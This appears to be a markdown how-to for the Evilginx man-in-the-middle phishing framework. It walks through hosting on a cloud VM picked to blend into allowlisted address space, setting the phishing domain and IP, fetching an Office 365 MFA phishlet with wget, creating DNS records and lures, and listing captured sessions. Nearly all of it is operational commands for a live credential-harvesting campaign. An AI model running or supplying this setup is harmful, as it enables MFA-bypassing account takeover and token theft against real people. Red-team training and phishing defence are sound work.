 # Evilginx Man-in-the-Middle attack framework

### Github repo: https://github.com/kgretzky/evilginx2

### Resources: https://breakdev.org/evilginx-3-3-go-phish/

## Setup:

### Our Evilginx server needs to be accessible over the internet and for this we can stand up a VM from any cloud provider. If the target uses Azure (for example) then this cloud platform address space is likely to be allowlisted, so it would make sense to stand up an Azure virtual machine in that case. We used a Ubuntu Linux EC2 instance.

 - ./evilginx (Run evilginx)

### After running our built evilginx binary we confirm it's working see that we need to specify the path to a directory containing our Evilginx phishlets. Phishlets are small YAML configuration files that configure Evilginx to target specific websites for phishing attacks. The example phishlet exists in the phishlets directory by default.

 - build/evilginx -p phishlets (Specify a path to a directory containing our Evilginx phishlets)

### Next, we need to configure the domain to use for our phishing campaign. You can register a domain if needed. We have used the domain LEGITIMATE_DOMAIN that looks legitimate (example). We also provide Evilginx with the public IP address of the VM or any redirector you have configured. 

 - config ipv4 external EXTERNAL_IP

 - config domain LEGITIMATE_DOMAIN.COM

 - cd phishlets

 - wget https://raw.githubusercontent.com/faelsfernandes/evilginx3-phishlets/main/o365-mfa.yaml (Navigate to the phishlets directory and download a phishlet of your choosing)

### A few phishing subdomains were specified in the phishlet and we can go ahead and create A host records for them in the DNS management section of our domain (your domain provider may look different).

### In the Evilginx console we can configure the hostname that should be used with the phishlet.

 - phishlets hostname PHISHLET_NAME LEGITIMATE_DOMAIN.COM

 - phishlets enable PHISHLET_NAME

 - phishlets hide EXAMPLE_PHISHLET

### Running Evilginx again we see our phishlet and can now create a lure! Lures are pre-generated phishing links that will be sent out on phishing engagements.

### If you want to check the state of your phishlets at any time, you can do so using the phishlets command. Some other helpful commands are below.

Action                              Command
-----------                         -----------
Function                            Clear-Token 
Start Evilginx                      ./evilginx
Close Evilginx                      exit
Get the phising URL                 lures get-url <lure-id>
Get the config                      config
List all phishlets                  phishlets
List all sessions                   sessions
Get details from specific session   sessions <session-id>
Clear screen                        clear
Hide a phishlet                     phishlets hide <phishlet-name>
Unhide a phishlet                   phishlets unhide <phishlet-name>
